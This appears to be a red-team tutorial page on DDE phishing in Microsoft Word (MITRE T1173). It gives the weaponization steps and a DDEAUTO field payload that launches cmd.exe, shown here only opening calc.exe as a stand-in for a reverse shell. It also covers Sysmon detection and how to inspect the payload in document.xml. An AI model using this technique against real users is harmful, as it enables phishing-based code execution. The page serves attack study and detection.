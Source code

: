 ```yaml
---
description: Dynamic Data Exchange code - executing code in Microsoft Office documents.
---
```


# T1173: Phishing - DDE

## Weaponization

Open a new MS Word Document and insert a field:

![](../../../.gitbook/assets/dde-insert-field.png)

It will add an `!Unexpected End of Formula`to the document, that is expected. Right click it &gt; Toggle Field Codes:

![](../../../.gitbook/assets/dde-toggle-code.png)

Toggle Field Codes will give this:

![](../../../.gitbook/assets/dde-merge.png)

Replace `= \* MERGEFORMAT` with payload and save the doc:

```bash
DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"
```

to get this:

![](../../../.gitbook/assets/dde-payload.png)

{% file src="../../../.gitbook/assets/evil.docx" caption="DDE: evil.docx" %}

## Execution

Once the victim launches the evil .docx by and accepts 2 prompts, the reverse shell \(or in this case a calc.exe\) pops:

![](../../../.gitbook/assets/dde-prompt1.png)

![](../../../.gitbook/assets/dde-prompt2.png)

## Observations

![](../../../.gitbook/assets/dde-procexp.png)

Sysmon logs can help spot suspicious processes and/or network connections being initiated by Office applications:

![3rd and 4th columns respectively: PID and PPID](../../../.gitbook/assets/dde-sysmon.png)

## Inspection

How can we inspect .docx \(same for .xlsx\) files? Since they are essentially .zip archives, we can rename the .docx file to .zip and simply unzip the archive for further inspection.

The file we are interested in is the `document.xml` \(trimmed for brevity below\). Note how line 4 allows us inspecting the DDE payload in plain text:

{% code title="document.xml" %}
```markup
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<w:document xmlns:wpc="http://schemas.microsoft.com/office/word/2010/wordprocessingCanvas" xmlns:cx="http://schemas.microsoft.com/office/drawing/2014/chartex" xmlns:cx1="http://schemas.microsoft.com/office/drawing/2015/9/8/chartex" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:w15="http://schemas.microsoft.com/office/word/2012/wordml" xmlns:w16se="http://schemas.microsoft.com/office/word/2015/wordml/symex" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:wpi="http://schemas.microsoft.com/office/word/2010/wordprocessingInk" xmlns:wne="http://schemas.microsoft.com/office/word/2006/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" mc:Ignorable="w14 w15 w16se wp14">
<...snip...>
      <w:instrText>DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"</w:instrText>
<...snip...>
</w:document>
```
{% endcode %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1173" caption="" %}

